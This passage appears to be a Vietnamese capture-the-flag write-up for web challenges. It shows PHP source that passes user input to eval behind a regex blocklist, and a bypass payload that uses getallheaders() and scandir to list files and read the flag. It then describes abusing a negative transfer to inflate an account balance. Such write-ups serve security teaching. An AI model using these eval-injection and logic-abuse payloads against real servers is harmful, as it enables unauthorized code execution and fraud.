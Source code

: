 Flag -> `web-vkl{dm_ch4ll_3z_vllllllll_!!!}`

## Challenge Eval ga VKL 2 (3 solved)

Bài này vẫn được cung cấp source như bài 1.
```php
<?php
error_reporting(0);
chdir("/");
if (isset($_GET['cmd'])) {
    $cmd = $_GET['cmd'];
    if (preg_match("/[3-9`~!@#\$%^&*\-=+.,;?'\"\[\]\{\}\\\\]|\([2]|\_[a-q]|0|1|pcntl|highlight_file|var|root|len|func|contents|eval|count|cmp/i",$cmd) || substr_count($cmd,'ext') > 1 || substr_count($cmd,'scan') > 1) {
        die("ấu nâu !");
    } else {
        eval($cmd.";");
    }
} else {
    highlight_file(__FILE__);
}

?>
```
Đọc thì thấy payload ở ver 1 sẽ không sài được nữa vì đã filter `len 1 `, nếu như sau ( là 2 và sau _ là a-q cũng bị ban. `ext` và `scan` chỉ được xuất hiện 1 lần. Mục đích ở đây là chặn `next` và `scandir` xuất hiện trong input quá 1 lần.

Ở disable function có mở thêm là `array_reverse` nếu ai có check lại sẽ thấy. Nhưng trong các filter thì vẫn sót là `getallheaders()` => sử dụng nó thôi :))

### Payload
![image](https://user-images.githubusercontent.com/54855855/130331892-94ab0fc5-fae2-4a18-a0e7-808b265b5acd.png)
Thêm header `cc: /` và get lên `?cmd=print_r(next(getallheaders()))`. Tới đây thì đã tạo được `/` rồi thì dùng scandir để xem file và folder thôi.
`print_r(scandir(next(getallheaders())))` -> flag nằm ở phần từ thứ 2 ở cuối mảng và có tên `vaday_la_flag_hahah_hihihi_hoho.txt`.

Cuối cùng là đọc flag.
![image](https://user-images.githubusercontent.com/54855855/130332049-b0b40b47-def3-4244-b9be-4d0388d8edd7.png)

Flag -> `web-vkl{Wow_w0w_writ3_p4yl0ad_1n_5s_3625146215!}`

## Challenge Baby SQL (0 solved)
Đầu tiên thử register và login account đó. Khi đăng nhâp vào thì thấy được account có 20 star và status được set là 1. Để vào được `/flag` thì star phải >= 100.
Ở đây mình chỉ cần lập 1 account khác và chuyển số `-100` thì account của mình đã có 120 star. (Lúc đầu mình tính check số âm và để mọi người race nhưng giảm bớt thì mình làm cách này cho lẹ :3 )
Vô được flag.php thì nhận được 1 source code như sau
```php
<?php
session_start();
include_once("config.php");
$stmt = $conn->prepare('select * from users where username=?');
if (!$stmt)
    throw new Exception("prepare query error:" . $conn->error);
$stmt->bind_param('s', $_SESSION['username']);
$stmt->execute();
$result = $stmt->get_result();
while ($row = $result->fetch_assoc()) {
    $checkStar = $row['star'];
}
if ($checkStar >= 100) {
```